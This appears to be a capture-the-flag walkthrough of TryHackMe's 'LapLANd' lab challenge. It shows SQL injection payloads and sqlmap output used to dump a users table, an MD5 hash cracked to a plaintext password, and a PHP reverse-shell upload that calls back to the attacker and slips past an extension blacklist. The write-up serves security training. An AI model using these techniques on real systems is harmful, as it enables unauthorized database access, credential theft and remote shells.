


# [Day 23] LapLANd (SQL Injection)

Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?

This machine may take up to 5 minutes to boot and configure.

Supporting material available [here](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit?usp=sharing).


## #1 - Which field is SQL injectable? Use the input name used in the HTML code.

*Hint: SQLMap will highlight which field is vulnerable, if you decide to use it.*

~~~
$ sqlmap -u http://10.10.182.6/register.php --forms

...[SNIP]...

[16:13:46] [INFO] POST parameter 'log_email' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'log_email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=VSns' AND (SELECT 6301 FROM (SELECT(SLEEP(5)))oCVA) AND 'flbW'='flbW&log_password=&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=VSns' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71626b7a71,0x7347484c634b4e6b486c744a5268767867634c5a774d704c6242534d476373626d4464766b614463,0x71716b7171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=&login_button=Login
---
do you want to exploit this SQL injection? [Y/n] 
[16:14:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[16:14:00] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/unknown/.sqlmap/output/results-05042020_0411pm.csv'

~~~


## #2 - What is Santa Claus' email address?

*Hint: If your injection is going very slowly, consider enumerating only the information you need instead of trying to dump the whole database.*

Create an account and log in. Capture the log in request with BurpSuite and save the request as `req.txt` (Action > Save item)

~~~
$ sqlmap -r req.txt --current-db

...[SNIP]...

[18:02:59] [INFO] retrieved: social
current database: 'social'
~~~

We have now retrieved the database name: `social`.

Now, let's try to get the list of tables.

~~~
$ sqlmap -r req.txt -D social --tables

...[SNIP]...

Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
~~~

Let's get the columns of the table `users`:

~~~
$ sqlmap -r req.txt -D social -T users --columns

...[SNIP]...

Database: social
Table: users
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| id           | int(11)      |
| password     | varchar(255) |
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+
~~~

Now, let's execute a SQL query to dump Santa's information.

~~~
$ sqlmap -r req.txt -D social -T users -C id,password,email,username --sql-query "select id,password,email,username from users where username like '%santa%'"

...[SNIP]...

[18:29:26] [INFO] retrieved: 1
[18:29:27] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
[18:29:47] [INFO] retrieved: bigman@shefesh.com
[18:29:55] [INFO] retrieved: santa_claus
select id,password,email,username from users where username like '%santa%' [1]:
[*] 1, f1267830a78c0b59acc06b05694b2e28, bigman@shefesh.com, santa_claus
~~~

Santa's email is `bigman@shefesh.com`.


## #3 - What is Santa Claus' plaintext password?

*Hint: It's in rockyou.txt - also try online sites such as HashKiller or Crackstation*

We have gathered Santa's password has in the previous question: `f1267830a78c0b59acc06b05694b2e28`. Googling for this has leads to http://md5this.com/list.php?page=553&key=1&author=ToXiC&country=Cyprus&city=Nicosia:

* Hash: f1267830a78c0b59acc06b05694b2e28
* Plain: saltnpepper


## #4 - Santa has a secret! Which station is he meeting Mrs Mistletoe in?

*Hint: Look at the private messages between users, either through the database or logging in as Santa!*

Now that we have Santa's credentials (email=`bigman@shefesh.com`, password=`saltnpepper`), let's connect as Santa.

Go to Sant'as private message page (http://10.10.245.53/messages.php?u=mommy_mistletoe) to answer the question. Here is the conversation:

~~~
You and Mommy Mistletoe

XSanta, I think my son Michael saw us kissing underneath the misteltoe last night! Meet me under the clock in Waterloo station at Midnight.

XMrs Mistletoe, you're certainly on the naughty list this year! See you there, Kris x
~~~

Answer: `Waterloo`.

## #5 - Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

*Hint: If you're getting an error about a file format being blacklisted, try looking up alternative file extensions that will still execute.*

Once logged in, let's go to the `home` page (http://10.10.95.45/index.php). From here, we can post a new comment and upload an attachment.

Let's download a PHP reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). Untar the archive and modify the `php-reverse-shell.php` script:

```php
$ip = '10.9.**.**';  // CHANGE THIS
$port = 9999;        // CHANGE THIS
```

Fire up netcat. When the reverse shell will be uploaded, we should have a shell here.
~~~
$ nc -nlvp 9999
~~~

Then try to upload the reverse shell. Too bad, PHP files are not accepted. Let's use Burp Suite to see if other extensions may be accepted.

Go to Burp Suite > Proxy > HTTP History and right click on the POST request that corresponds to the upload attempt (if Burp was not running, do the attempt again with the `*.php` extension). Send this request to the Intruder module.



Now, in the `Positions` tab, make sure you select `Sniper` from the `Attack type` dropdown, click on the `Clear §` button, highlight the extension from the filename and click on `Add §`. This will tell the Intruder what extensions we will test.



Now, go to the `Payloads` tab, and in the `Payload Options` section, add some extensions to the list (`php`, `php4`, `php5`, `phtml`, ...). When done, click on the `Start Attack` button.


Once the attack is complete, you are presented with the following results:


Notice that you can assess the allowed extensions based on the size of the response. Now, we know that only the `*.php` extension was forbidden. Let's rename our reverse shell script:

~~~
$ mv php-reverse-shell.php php-reverse-shell.php4
~~~

Upload the script and check your netcat listener. You have a shell:

~~~
$ nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.95.45 45642 received!
Linux server 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:11:20 up 18 min,  0 users,  load average: 0.02, 0.14, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/user/flag.txt

...[SNIP]...

THM{SHELLS_IN_MY_EGGNOG}
~~~

Answer: `THM{SHELLS_IN_MY_EGGNOG}`